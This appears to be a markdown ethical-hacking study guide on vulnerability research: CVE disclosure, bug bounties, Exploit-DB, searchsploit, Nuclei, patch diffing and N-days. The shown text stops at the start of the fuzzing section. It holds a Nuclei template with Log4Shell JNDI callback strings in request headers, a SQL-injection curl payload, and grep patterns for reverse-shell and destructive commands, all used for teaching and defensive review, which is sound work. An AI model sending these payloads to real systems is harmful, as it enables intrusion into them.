

# Vulnerability Research, CVE Lifecycle & Exploit-DB Mastery

> **Volume 04 — Core Ethical Hacking**
> *Ethical Hacking VAPT Master Notes*
> Last Updated: 2026-09-05 | Classification: Educational / Authorized Testing Only

---

## Table of Contents

1. [What is Vulnerability Research?](#1-what-is-vulnerability-research)
2. [CVE Lifecycle](#2-cve-lifecycle)
3. [Bug Bounty Programs](#3-bug-bounty-programs)
4. [Exploit-DB](#4-exploit-db)
5. [Searchsploit](#5-searchsploit)
6. [Nuclei](#6-nuclei)
7. [Vulnerability Databases](#7-vulnerability-databases)
8. [GitHub PoC Searching](#8-github-poc-searching)
9. [Patch Diffing Methodology](#9-patch-diffing-methodology)
10. [Finding N-Day Vulnerabilities](#10-finding-n-day-vulnerabilities)
11. [Fuzzing Introduction](#11-fuzzing-introduction)
12. [Source Code Review for Vulnerabilities](#12-source-code-review-for-vulnerabilities)
13. [Proof of Concept Development](#13-proof-of-concept-development)
14. [Vulnerability Disclosure Reports](#14-vulnerability-disclosure-reports)
15. [Tracking Vulnerabilities](#15-tracking-vulnerabilities)
16. [OSCP-Style Exploit Modification](#16-oscp-style-exploit-modification)
17. [Quick Reference Tables](#17-quick-reference-tables)

---

## 1. What is Vulnerability Research?

Vulnerability research is the systematic process of discovering, analyzing, and documenting security weaknesses in software, hardware, firmware, or network systems. It sits at the intersection of computer science, reverse engineering, and adversarial thinking. Unlike simple penetration testing (which uses known vulnerabilities), vulnerability research aims to **find previously unknown or underexplored weaknesses**.

### 1.1 Types of Vulnerability Research

| Type | Description | Goal | Who Does It |
|------|-------------|------|-------------|
| **Bug Bounty** | Finding vulns in vendor-defined scope | Reward + responsible disclosure | Independent researchers |
| **Academic** | Publishing novel attack classes or defenses | Knowledge advancement | University researchers, PhD students |
| **Vendor-Internal** | Product security teams auditing own code | Proactive patching before release | PSIRT teams (e.g., Microsoft SDL) |
| **Offensive (Red Team)** | Finding exploitable paths during engagements | Simulating real attackers | Red teamers, nation-state actors |
| **Defensive** | Understanding attack techniques to build detections | Better defense, IDS rules, threat intel | Blue teamers, threat hunters |

#### Bug Bounty Research

Focused, scoped, and financially motivated. Researchers agree to defined rules of engagement and report vulnerabilities to earn monetary rewards. The ecosystem has professionalized greatly since HackerOne's founding in 2012.

#### Academic Research

Often involves novel attack class discovery (e.g., Spectre/Meltdown, Rowhammer). Academic researchers publish papers, present at DEF CON/Black Hat, and typically coordinate disclosure with vendors before publication.

#### Vendor-Internal (PSIRT)

Product Security Incident Response Teams conduct internal audits during the Software Development Lifecycle (SDLC). Tools include static analysis (SAST), fuzz testing, and manual code review. Goal: ship software with zero known high-severity vulnerabilities.

#### Offensive Research

Nation-state actors, mercenary hacker groups, and red teams invest heavily in finding 0-days for weaponization. This is the most ethically fraught category. When done legitimately, it feeds back into defense through government vulnerability equity processes (VEPs).

#### Defensive Research

Threat intelligence teams analyze malware, reverse engineer exploit payloads, and map TTPs (Tactics, Techniques, Procedures) to MITRE ATT&CK. Output is detection rules, threat reports, and defensive tooling.

---

### 1.2 The Researcher Mindset

The best vulnerability researchers share a set of cognitive traits:

- **Adversarial curiosity**: Always asking "What happens if I give this unexpected input?"
- **Systematic thinking**: Methodically covering attack surface rather than guessing
- **Persistence**: Most vulns require hours or days of analysis before the "aha" moment
- **Deep technical understanding**: OS internals, memory management, protocol specifics
- **Pattern recognition**: Recognizing code patterns associated with historical vulnerability classes
- **Documentation discipline**: Capturing everything—notes, screenshots, reproducible steps

> **Key mindset principle**: Developers build for the happy path. Researchers attack the unhappy path — edge cases, boundary conditions, unexpected state transitions, and trust boundary violations.

---

### 1.3 Legal and Ethical Considerations

> ⚠️ **CRITICAL**: Vulnerability research without explicit authorization is illegal in most jurisdictions under laws including the Computer Fraud and Abuse Act (CFAA) in the USA, the Computer Misuse Act (CMA) in the UK, and equivalent legislation worldwide.

**Always ensure you have:**
- Written authorization (scope document, bug bounty program agreement, or signed contract)
- Clear understanding of what systems are in-scope vs out-of-scope
- Non-destructive testing procedures in place
- A plan for responsible disclosure

**Ethical principles:**
1. **Do no harm** — never cause production outages, data destruction, or privacy breaches
2. **Minimal footprint** — access only what is necessary to prove the vulnerability
3. **Disclose responsibly** — give vendors reasonable time to patch before public disclosure
4. **Protect user data** — if you encounter PII, document it, do not exfiltrate it
5. **Follow the program rules** — bug bounty program terms are legally binding agreements

---

## 2. CVE Lifecycle

### 2.1 What is a CVE?

A **Common Vulnerabilities and Exposures (CVE)** entry is a standardized identifier for a publicly known cybersecurity vulnerability. Each CVE has:
- A unique ID: `CVE-YEAR-NNNNN` (e.g., `CVE-2021-44228`)
- A description of the vulnerability
- References to advisories, patches, and PoC code
- A CVSS score (Common Vulnerability Scoring System)

CVEs are maintained by MITRE Corporation and funded by the US Department of Homeland Security (CISA).

---

### 2.2 Full CVE Lifecycle — Discovery to Disclosure



---

### 2.3 Disclosure Models Compared

| Model | Description | Vendor Notice | Public Timeline | Risk |
|-------|-------------|---------------|-----------------|------|
| **Responsible Disclosure** | Reporter notifies vendor, waits for patch before going public | Yes | Flexible (vendor-driven) | Low — but vendor may delay indefinitely |
| **Coordinated Disclosure** | Reporter works *with* vendor AND a neutral 3rd party (e.g., CERT/CC) | Yes | Fixed deadline (e.g., 90 days) | Balanced — deadline forces vendor action |
| **Full Disclosure** | Immediate public release with no prior vendor notice | No | Immediate | High — users exposed until patch |
| **0-day** | Kept secret, sold, or used before vendor knowledge | No | Never (by intent) | Extremely High — weaponized in the wild |

#### Why Coordinated Disclosure is the Gold Standard

Coordinated disclosure (CD) respects both parties: vendors get time to patch, but the deadline prevents indefinite stonewalling. Google Project Zero's 90-day policy has become the de facto industry standard. When vendors miss deadlines, researchers publish anyway — creating accountability.

---

### 2.4 Disclosure Timelines

| Organization | Policy | Deadline | Extensions |
|---|---|---|---|
| **Google Project Zero** | 90 days after vendor notification | 90 days | +14 day grace if patch imminent |
| **CERT/CC** | 45 days (accelerated) or 90+ days (standard) | Variable | Case-by-case |
| **Zero Day Initiative (ZDI)** | 120 days | 120 days | Rarely granted |
| **HackerOne** | Program-defined | Typically 90 days | Depends on program |
| **Microsoft MSRC** | Patch Tuesday cycle (~30-90 days) | Flexible | For complex fixes |
| **Apple** | Undisclosed (typically 90+ days) | Undefined | Frequent delays reported |

---

## 3. Bug Bounty Programs

### 3.1 How They Work

Bug bounty programs are formalized arrangements where organizations pay researchers for responsibly disclosing security vulnerabilities. The process:

1. **Researcher reads the program brief** — scope, rules, reward tiers
2. **Researcher tests in-scope assets** — staying strictly within defined boundaries
3. **Vulnerability discovered** — documented, PoC created
4. **Report submitted** — via platform (HackerOne, Bugcrowd) or vendor portal
5. **Triage** — vendor/program validates the issue (can take hours to weeks)
6. **Remediation** — vendor patches the issue
7. **Reward paid** — based on severity and impact

---

### 3.2 Program Types

| Type | Description | Example |
|------|-------------|---------|
| **Public** | Open to all researchers | HackerOne public programs |
| **Private (Invite-Only)** | Limited to vetted researchers with good track records | Most high-value programs |
| **Vulnerability Disclosure Policy (VDP)** | No monetary reward — just legal safe harbor | US Federal agencies |
| **Time-Limited (Live Hacking Event)** | In-person or virtual event with bonus payouts | H1-702, HackerOne LIVE events |

---

### 3.3 Major Platforms

#### HackerOne (hackerone.com)

- Largest bug bounty platform globally
- Hosts programs for Uber, Twitter/X, US DoD, Shopify, GitHub
- Offers H1-CLEAR (background-checked) for private program access
- Reputation system (signal, impact score) influences invite access

#### Bugcrowd (bugcrowd.com)

- Second-largest platform
- Crowdsourced security model
- Hosts programs for Atlassian, Netgear, Casey's, Tesla
- Priority program access based on "Bugcrowd Score"

#### Intigriti (intigriti.com)

- European-focused platform
- GDPR-compliant, popular with EU companies
- Strong community focus, regular Swag-only and monetary programs

#### Self-Hosted Programs

- Google: `bughunters.google.com`
- Microsoft: `msrc.microsoft.com/create-report`
- Apple: `apple.com/support/security/`
- Mozilla: `bugzilla.mozilla.org`

---

### 3.4 Reading Scope and Rules of Engagement (ROE)

The **program brief** is a legal document. Read it carefully before touching any assets.

**Key sections to parse:**

```
Scope:
  In-Scope:
    - *.example.com
    - api.example.com
    - iOS app (bundle ID: com.example.app)

  Out-of-Scope:
    - staging.example.com
    - Third-party services (Zendesk, Salesforce)
    - Social engineering attacks
    - Physical attacks

Rules of Engagement:
  - No automated scanning without prior approval
  - No DDoS or denial of service attacks
  - Do not access user data beyond your own accounts
  - Report within 24 hours of discovering critical vulns
  - Do not disclose publicly until fixed + 30-day grace period
```

**In-Scope vs Out-of-Scope:**
- In-scope: Assets the program explicitly lists; wildcard domains include subdomains you discover
- Out-of-scope: Third-party services (even if linked), CDN providers, customer instances, physical offices

---

### 3.5 Writing Good Bug Bounty Reports

A quality report dramatically affects payout speed, payout amount, and your platform reputation.

```markdown
## Title
[Component] - [Vulnerability Type] allows [Impact]
Example: "Authentication API - Improper Rate Limiting allows Account Takeover via Brute Force"

## Severity
Critical / High / Medium / Low / Informational
CVSS Score: 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Summary
One paragraph describing the vulnerability, affected component, and impact.

## Steps to Reproduce
1. Navigate to https://api.example.com/auth/login
2. Send the following request:
   POST /auth/login HTTP/1.1
   {"username":"victim@example.com","password":"FUZZ"}
3. Repeat 1000 times — no rate limiting enforced
4. Successfully brute-forced password in under 60 seconds

## PoC Evidence
[Screenshot / HTTP request+response / Video recording]

## Impact
Describe real-world impact: "An attacker can take over any user account without any interaction from the victim."

## Remediation Recommendation
Implement rate limiting of 5 attempts per 15 minutes per IP and per account.
Return 429 with Retry-After header.

## References
- OWASP A07:2021 - Identification and Authentication Failures
- CWE-307: Improper Restriction of Excessive Authentication Attempts
```

---

### 3.6 Common Beginner Mistakes

1. **Testing out-of-scope assets** — Immediate dismissal, possible legal risk
2. **Submitting duplicates** — Always search for existing reports first
3. **Incomplete PoC** — "I think this might be SQLi" without proof gets N/A'd
4. **Noise hunting** — Submitting missing security headers as Critical
5. **Self-XSS only** — Must demonstrate cross-user impact
6. **Scanning blindly** — Aggressive automated scanning can trigger WAFs and ban you
7. **Overestimating severity** — Marking everything P1 destroys credibility
8. **Disclosing publicly before fix** — Violates program terms, nullifies payout

---

### 3.7 Payout Tiers by Severity

| Severity | CVSS Range | Example | Typical Range |
|----------|-----------|---------|---------------|
| **Critical** | 9.0-10.0 | RCE, auth bypass, SQLi on prod DB | $5,000 - $100,000+ |
| **High** | 7.0-8.9 | Stored XSS, IDOR (mass data), SSRF | $1,000 - $10,000 |
| **Medium** | 4.0-6.9 | Reflected XSS, Open Redirect with impact | $200 - $2,000 |
| **Low** | 0.1-3.9 | Missing headers, info disclosure | $50 - $500 |
| **Informational** | N/A | Best-practice recommendations | $0 (kudos only) |

---

## 4. Exploit-DB

### 4.1 What is Exploit-DB?

**Exploit-DB** (`exploit-db.com`) is a free, public archive of exploits and vulnerable software. It is maintained by **Offensive Security** (the creators of Kali Linux and OSCP). Established in 2003 as "milw0rm" and later rebranded, Exploit-DB serves as the most widely used repository for:

- Remote and local exploit code
- Proof-of-concept scripts
- Shellcode samples
- Papers on vulnerability classes

Every entry is tagged with a **CVE number** (when applicable), platform, type, author, and verification status.

---

### 4.2 How to Search Exploit-DB

#### Website Search (exploit-db.com/search)

Filters available:

| Filter | Options | Example |
|--------|---------|---------|
| **Type** | Remote, Local, DoS, WebApps, Shellcode | Remote |
| **Platform** | Linux, Windows, PHP, Java, macOS | Linux |
| **CVE** | Direct CVE input | CVE-2021-44228 |
| **Date** | Year range | 2023-2024 |
| **Author** | Researcher handle | mr_me |
| **Verified** | Verified only | Checked |

#### Example URL Patterns

```bash
# Search by CVE
https://www.exploit-db.com/search?cve=CVE-2021-44228

# Search by type (webapps)
https://www.exploit-db.com/webapps

# Search by platform (Linux)
https://www.exploit-db.com/platform/linux

# Direct exploit by EDB-ID
https://www.exploit-db.com/exploits/50592
```

---

### 4.3 Understanding Exploit Code — What to Look For

When reviewing an exploit from Exploit-DB, check:

```python
#!/usr/bin/env python3
# Exploit Title: Apache Log4j 2.x - Remote Code Execution (Log4Shell)
# CVE: CVE-2021-44228
# Date: 2021-12-10
# Author: [Researcher]
# Vendor Homepage: https://logging.apache.org/log4j/2.x/
# Version: 2.0-beta9 to 2.14.1
# Tested on: Linux

# What to look for:
# 1. TARGET: What is the vulnerable endpoint or function?
# 2. PAYLOAD: What does it send? (shellcode, JNDI string, etc.)
# 3. LISTENER: Does it need a callback listener? (netcat, LDAP server)
# 4. DEPENDENCIES: What libraries/tools does it need?
# 5. VERIFICATION: Is there a way to confirm success without destructive action?
```

**Checklist when reviewing exploit code:**
- [ ] Read the header metadata (CVE, date, tested platform)
- [ ] Identify all network connections made (IP, port, protocol)
- [ ] Look for hardcoded IPs/ports you must change
- [ ] Check for destructive payloads (rm -rf, format commands)
- [ ] Understand the vulnerability class being exploited
- [ ] Look for dependency imports (pip install requests, gem install)
- [ ] Check for shellcode variables — these may be architecture-specific
- [ ] Note the offset/buffer values if it is a buffer overflow exploit

---

### 4.4 Verifying PoCs Before Running

> ⚠️ **Never run untrusted exploit code on your host machine or production systems**

```bash
# Step 1: Read the entire script before executing
cat /path/to/exploit.py

# Step 2: Check for reverse shell callbacks to unexpected IPs
grep -E "(connect|socket|urllib|requests)" exploit.py

# Step 3: Check for filesystem destructive operations
grep -E "(rm|shred|format|del |unlink)" exploit.py

# Step 4: Run in isolated VM or Docker container
docker run --rm -it --network none kalilinux/kali-rolling bash

# Step 5: Use a sandboxed target (DVWA, VulnHub, HackTheBox)
```

**Trust indicators for Exploit-DB entries:**
- "Verified" badge — Offensive Security has tested the PoC
- Multiple references and CVE assigned
- Code is readable and well-commented
- Warning: No CVE, anonymous author, obfuscated code — extra caution needed

---

## 5. Searchsploit

### 5.1 What is Searchsploit?

**Searchsploit** is the command-line interface to the Exploit-DB archive, pre-installed on Kali Linux. It allows fully offline searching of the local Exploit-DB mirror, enabling searches during engagements without internet access.

```bash
# Install (Kali Linux has it by default)
sudo apt install exploitdb

# Verify installation
searchsploit --version
```

---

### 5.2 Key Flags and Usage

#### Basic Search

```bash
# Search by keyword (matches title and file content)
searchsploit apache struts
searchsploit wordpress plugin

# Case-insensitive by default
searchsploit "smb" windows
```

#### -t Flag — Title Search Only

```bash
# Restrict search to exploit title (not file content)
searchsploit -t "apache 2.4"
searchsploit -t "vsftpd 2.3.4"
```

#### -p Flag — Show Full Path

```bash
# Show the full filesystem path to the exploit file
searchsploit -p 47887
# Output: /usr/share/exploitdb/exploits/php/webapps/47887.py
```

#### -x Flag — Examine / View the Exploit

```bash
# Open the exploit in your terminal (read-only view)
searchsploit -x 47887
searchsploit -x exploits/linux/remote/47887.py
```

#### -m Flag — Mirror / Copy to Current Working Directory

```bash
# Copy exploit to your current directory for editing
searchsploit -m 47887
searchsploit -m exploits/php/webapps/47887.py

# It copies the file to ./47887.py (or similar) in CWD
```

#### --cve Flag — Search by CVE Number

```bash
# Find exploits associated with a specific CVE
searchsploit --cve CVE-2021-44228
searchsploit --cve 2021-44228   # Also works without "CVE-" prefix
```

#### --id Flag — Show EDB-IDs Only

```bash
# Return only the numeric EDB-ID for scripting
searchsploit --id vsftpd 2.3.4
```

#### -u Flag — Update the Database

```bash
# Pull latest exploits from Exploit-DB (requires internet)
searchsploit -u

# Or update via package manager
sudo apt update && sudo apt upgrade exploitdb
```

#### Additional Useful Flags

```bash
# JSON output for scripting
searchsploit --json apache | jq '.RESULTS_EXPLOIT'

# Search with regex
searchsploit -e "Buffer.*Overflow.*Windows"

# Exclude results
searchsploit apache | grep -v "Metasploit"
```

---

### 5.3 Integration with Nmap Output

One of the most powerful workflows: pipe nmap service detection output directly into searchsploit.

```bash
# Step 1: Run nmap with service version detection and save XML
nmap -sV -oX scan.xml 192.168.1.100

# Step 2: Use searchsploit nmap integration
searchsploit --nmap scan.xml

# This automatically extracts service/version pairs and searches Exploit-DB
# Example output:
# [+] vsftpd 2.3.4      -> EDB-ID 17491 (Backdoor Command Execution)
# [+] OpenSSH 7.4       -> EDB-ID 43623 (Username Enumeration)
# [+] Apache httpd 2.4.29 -> EDB-ID 47887 (Server-Side Request Forgery)
```

This dramatically accelerates post-scan exploitation research during engagements.

---

## 6. Nuclei

### 6.1 What is Nuclei?

**Nuclei** is an open-source, template-based vulnerability scanner developed by **ProjectDiscovery**. Unlike traditional scanners that use hardcoded plugin logic, Nuclei uses **YAML templates** — human-readable definitions of how to detect a specific vulnerability. This makes it:

- Extremely fast (concurrent, Go-based)
- Highly customizable
- Community-driven (thousands of templates in the public library)
- Ideal for both broad scanning and targeted CVE validation

**GitHub**: `github.com/projectdiscovery/nuclei`

---

### 6.2 Installation

```bash
# Install via Go
go install -v github.com/projectdiscovery/nuclei/v3/cmd/nuclei@latest

# Or via apt (Kali)
sudo apt install nuclei

# Or binary download
wget https://github.com/projectdiscovery/nuclei/releases/latest/download/nuclei_linux_amd64.zip
unzip nuclei_linux_amd64.zip
sudo mv nuclei /usr/local/bin/

# Update templates after install
nuclei -update-templates
```

---

### 6.3 Basic Usage and Key Flags

```bash
# Scan a single URL
nuclei -u https://target.example.com

# Scan a list of URLs
nuclei -l targets.txt

# Specify template directory
nuclei -t nuclei-templates/ -u https://target.example.com

# Filter by severity
nuclei -u https://target.com -severity critical,high

# Filter by tags
nuclei -u https://target.com -tags cve,sqli,rce

# Output results to file
nuclei -u https://target.com -o results.txt
nuclei -u https://target.com -json -o results.json

# Run specific template
nuclei -t nuclei-templates/cves/2021/CVE-2021-44228.yaml -u https://target.com

# Rate limiting (requests per second)
nuclei -u https://target.com -rate-limit 50

# Concurrency
nuclei -u https://target.com -c 25

# Silence output except findings
nuclei -u https://target.com -silent

# Use with a proxy (Burp Suite)
nuclei -u https://target.com -proxy http://127.0.0.1:8080
```

---

### 6.4 Writing Custom Nuclei Templates

Nuclei templates are YAML files with a defined structure:

```yaml
id: custom-log4shell-check

info:
  name: Apache Log4j - Remote Code Execution (Log4Shell)
  author: researcher
  severity: critical
  description: |
    Detects CVE-2021-44228 (Log4Shell) vulnerability in Apache Log4j 2.x.
    The vulnerability allows unauthenticated remote code execution.
  reference:
    - https://nvd.nist.gov/vuln/detail/CVE-2021-44228
  tags: cve,cve2021,rce,log4j,log4shell,java

requests:
  - method: GET
    path:
      - "{{BaseURL}}"
    headers:
      User-Agent: "${jndi:ldap://{{interactsh-url}}/log4shell}"
      X-Forwarded-For: "${jndi:ldap://{{interactsh-url}}/log4shell}"
      X-Api-Version: "${jndi:ldap://{{interactsh-url}}/log4shell}"

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"
          - "http"
        condition: or

    extractors:
      - type: regex
        part: body
        regex:
          - "([a-zA-Z0-9-]+\\.interactsh\\.com)"
```

#### Template Structure Breakdown

```yaml
# Minimum required fields:
id: unique-template-id          # Lowercase, hyphenated
info:
  name: Human-readable name
  author: your-handle
  severity: info|low|medium|high|critical
  tags: comma,separated,tags

# Request types available:
# - requests (HTTP)
# - dns (DNS queries)
# - tcp (raw TCP)
# - headless (browser-based, for JS rendering)
# - websocket

# Matcher types:
# - word: contains specific string
# - regex: matches regex pattern
# - status: HTTP status code
# - binary: binary data match
# - dsl: dynamic expression language

# Extractor types:
# - regex: extract regex group
# - kval: key=value extraction
# - json: JSONPath extraction
# - xpath: XPath extraction
# - css: CSS selector extraction
```

---

### 6.5 Community Template Library

```bash
# Default template location (after install)
ls ~/nuclei-templates/

# Directory structure:
# cves/             - CVE-specific checks organized by year
# exposures/        - Sensitive file/data exposures
# misconfiguration/ - Cloud, server misconfigs
# technologies/     - Technology fingerprinting
# vulnerabilities/  - Generic vulnerability checks
# default-logins/   - Default credential checks
# dns/              - DNS-related checks
# headless/         - Browser-based templates

# Update templates regularly
nuclei -update-templates

# Community templates: github.com/projectdiscovery/nuclei-templates
# Custom community: github.com/geeknik/the-nuclei-templates
```

---

## 7. Vulnerability Databases

### 7.1 NVD — National Vulnerability Database

**URL**: `nvd.nist.gov`

The authoritative US government repository for CVE data. Maintained by NIST, NVD enriches raw CVE data with:
- CVSS v2, v3, and v4 scores
- CPE (Common Platform Enumeration) data for affected products
- CWE (Common Weakness Enumeration) classifications
- Reference links to patches, PoCs, advisories

```bash
# NVD API (v2.0) - Query programmatically
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?keywordSearch=log4j&resultsPerPage=5"

# Fetch specific CVE
curl "https://services.nvd.nist.gov/rest/json/cves/2.0?cveId=CVE-2021-44228"
```

---

### 7.2 CVE MITRE

**URL**: `cve.mitre.org`

The root source for CVE assignments. While less feature-rich than NVD, MITRE maintains the canonical CVE list. Useful for:
- Looking up CVE descriptions before NVD enrichment
- Understanding CVE numbering authorities (CNAs)
- Searching the CVE list by keyword

---

### 7.3 VulDB

**URL**: `vuldb.com`

Commercial vulnerability intelligence platform (free tier available):
- Faster CVE publication than NVD
- Risk scoring based on exploit availability
- Vendor patch tracking
- Timeline analysis for disclosure gaps

---

### 7.4 Packet Storm Security

**URL**: `packetstormsecurity.com`

Long-running (since 1998) security archive covering:
- Exploit code (similar to Exploit-DB)
- Security papers and whitepapers
- Tools and scripts
- Security news aggregation

Good for finding older exploits not indexed in Exploit-DB.

---

### 7.5 0day.today

**URL**: `0day.today`

Underground-adjacent marketplace and database. Contains:
- Exploits for sale and for free
- Unverified/unofficial CVE mappings

> ⚠️ Use with extreme caution — code quality and safety vary wildly. Review all code in a sandbox environment.

---

### 7.6 Sploitus

**URL**: `sploitus.com`

Aggregator that indexes and searches across multiple vulnerability databases simultaneously:
- Exploit-DB
- GitHub PoCs
- Packet Storm
- 0day.today
- Vulhub

Excellent for finding PoCs faster than checking each source individually.

---

### 7.7 GitHub Security Advisories

**URL**: `github.com/advisories`

Official GitHub security advisory database (GHSA):
- Tracks vulnerabilities in open-source packages
- Integrated with GitHub Dependabot alerts
- Covers npm, PyPI, Maven, RubyGems, Go, NuGet, Cargo ecosystems
- Cross-references CVE and GHSA IDs

```bash
# GitHub Advisory API
curl "https://api.github.com/advisories?severity=critical&per_page=10" \
  -H "Authorization: Bearer YOUR_GITHUB_TOKEN"
```

---

## 8. GitHub PoC Searching

### 8.1 The poc-in-github Aggregator

**URL**: `github.com/nomi-sec/PoC-in-GitHub`

This repository auto-aggregates GitHub PoC repositories mapped to CVEs. Updated daily, it provides:

```bash
# Clone and search locally
git clone https://github.com/nomi-sec/PoC-in-GitHub
cd PoC-in-GitHub

# Search for specific CVE
grep -r "CVE-2021-44228" . --include="*.md"

# Find all 2023 critical PoCs
ls 2023/ | head -20
```

---

### 8.2 Searching GitHub by CVE Number

```bash
# GitHub search URL patterns:
# https://github.com/search?q=CVE-2021-44228&type=repositories
# https://github.com/search?q=CVE-2021-44228+exploit&type=code

# Use gh CLI for API-based search
gh search repos "CVE-2021-44228 exploit" --sort updated --limit 10

# GitHub code search for PoC patterns
gh search code "CVE-2021-44228" --language python
```

---

### 8.3 Evaluating PoC Quality and Trustworthiness

| Signal | Good | Caution |
|--------|------|---------|
| **Stars/Forks** | 100+ stars, many forks | Zero stars, no forks |
| **Author reputation** | Known security researcher | Anonymous, no history |
| **Code clarity** | Readable, well-commented | Obfuscated, base64-encoded blobs |
| **Age** | Created close to CVE disclosure date | Very old with no updates |
| **References** | Links to CVE, advisory, blog post | No references |
| **Tests** | Unit tests included | No verification mechanism |
| **Dependencies** | Standard libraries only | Downloads additional binaries |
| **README quality** | Detailed setup/usage instructions | Empty README |

---

### 8.4 Sandboxing PoCs Safely

```bash
# Option 1: Docker (network isolation)
docker run --rm -it \
  --network none \
  --cap-drop ALL \
  python:3.11-slim bash
# Paste and run PoC code inside

# Option 2: Firejail sandbox
firejail --net=none --noroot python3 poc.py

# Option 3: QEMU/KVM VM snapshot
# Take VM snapshot -> run PoC -> revert if needed

# Option 4: Online sandbox analysis
# - Any.run (any.run)
# - Joe Sandbox (joesandbox.com)
# - Cuckoo sandbox (self-hosted)

# Strace the PoC to see syscalls before network is enabled
strace -e trace=openat,connect,execve python3 poc.py 2>&1 | head -50
```

---

## 9. Patch Diffing Methodology

### 9.1 The Concept

**Patch diffing** is the process of comparing a *patched* version of software against an *unpatched* version to identify exactly what code changed. This is a critical skill for:
- Converting a vendor security advisory into a working exploit (N-day research)
- Understanding the root cause of a vulnerability from a changelog
- Verifying that a patch is sufficient and does not introduce new issues

---

### 9.2 Source-Level Diff

When source code is available (open-source projects):

```bash
# Clone a vulnerable version and the patched version
git clone https://github.com/target/project
cd project

# View security fix commit
git log --oneline --grep="security" | head -20
git log --oneline --grep="CVE-2024" | head -10

# View specific commit diff
git show abc1234def5678

# Compare two tags/branches
git diff v2.1.0..v2.1.1

# Filter to specific file types
git diff v2.1.0..v2.1.1 -- "*.c" "*.py"

# Save patch to file
git diff v2.1.0..v2.1.1 > security_patch.patch

# View unified diff with context
git diff -U10 v2.1.0..v2.1.1 src/auth.c
```

**What to look for in source diffs:**
- Newly added bounds checks (indicates buffer overflow fixed)
- Newly added authentication/authorization checks (indicates auth bypass)
- Input sanitization additions (indicates injection vuln)
- `free()` calls added (indicates use-after-free fixed)
- Integer overflow guards added

---

### 9.3 Binary-Level Diff

When only binaries are available (proprietary software):

#### BinDiff (by Google / Zynamics)

BinDiff works as a plugin for IDA Pro and Binary Ninja to compare two binary files:

```
1. Load patched binary into IDA Pro -> Export .i64 or .BinExport
2. Load unpatched binary into IDA Pro -> Export .BinExport
3. Run BinDiff -> Visual call graph comparison
4. Sort by "Similarity" ascending -> Functions with low similarity = changed functions
5. Click changed function -> Side-by-side disassembly comparison
```

#### Ghidra Comparison

```bash
# Open unpatched binary in Ghidra
# Open patched binary in Ghidra (separate project)
# Use Version Tracking feature:
#   Window -> Version Tracking
#   Create new session: old vs new binary
#   Run correlators (exact match, duplicate function, etc.)
#   View "Markup Items" to see what changed
```

---

### 9.4 Finding the Vulnerable Code Pattern from a Patch

**Real workflow example — CVE-2023-XXXX (hypothetical SQLi):**

```bash
# Step 1: Find the commit that fixes the CVE
git log --oneline | grep "Fix SQL"
# -> a1b2c3d Fix SQL injection in user search endpoint

# Step 2: View the diff
git show a1b2c3d

# Diff shows:
# -    query = "SELECT * FROM users WHERE username = '" + username + "'"
# +    query = "SELECT * FROM users WHERE username = ?"
# +    cursor.execute(query, (username,))

# Step 3: Understand the vulnerability
# Old code: string concatenation = SQLi
# New code: parameterized query

# Step 4: Identify where the old code was called
grep -rn "username = '" --include="*.py" .

# Step 5: Build PoC using the unpatched endpoint
curl "https://target.com/api/users/search?username=admin'%20OR%20'1'='1"
```

---

## 10. Finding N-Day Vulnerabilities

### 10.1 Monitoring Vendor Changelogs and Security Advisories

An **N-day** vulnerability is one where a patch exists but has not been applied by the target. Exploiting N-days is the bread and butter of OSCP-style engagements.

**Major vendor security advisory pages:**

| Vendor | Advisory URL |
|--------|-------------|
| Microsoft | `msrc.microsoft.com/update-guide` |
| Apple | `support.apple.com/en-us/HT201222` |
| Google | `chromereleases.googleblog.com` |
| Cisco | `tools.cisco.com/security/center/publicationListing.x` |
| Red Hat | `access.redhat.com/security/security-updates` |
| Ubuntu | `ubuntu.com/security/notices` |
| Debian | `security-tracker.debian.org` |
| Apache | `httpd.apache.org/security/vulnerabilities_24.html` |
| WordPress | `wordpress.org/news/category/security` |

---

### 10.2 GitHub Commit Monitoring for Security Fixes

```bash
# Use GitHub API to monitor commits
curl "https://api.github.com/repos/apache/log4j/commits?since=2024-01-01T00:00:00Z" \
  -H "Authorization: Bearer TOKEN" | jq '.[].commit.message'

# Filter for security-related commits
curl "https://api.github.com/repos/owner/repo/commits" | \
  jq '.[] | select(.commit.message | test("security|CVE|vuln|fix|patch"; "i"))'
```

---

### 10.3 RSS Feeds for CVEs

```bash
# NVD RSS feeds
# Critical: https://nvd.nist.gov/feeds/xml/cve/misc/nvd-rss-analyzed.xml
# Recent:   https://nvd.nist.gov/feeds/xml/cve/misc/nvd-rss.xml

# Use a feed reader or cli tool:
pip install feedparser
python3 -c "
import feedparser
feed = feedparser.parse('https://nvd.nist.gov/feeds/xml/cve/misc/nvd-rss-analyzed.xml')
for entry in feed.entries[:5]:
    print(entry.title, '-', entry.link)
"
```

---

## 11. Fuzzing Introduction

### 11.1 What is Fuzzing?

**Fuzzing** (or fuzz testing) is an automated software testing technique that:
- Sends malformed, random, or semi-random data to a target
- Monitors for crashes, hangs, memory errors, or unexpected behavior
- Discovers vulnerabilities that manual review and traditional testing miss

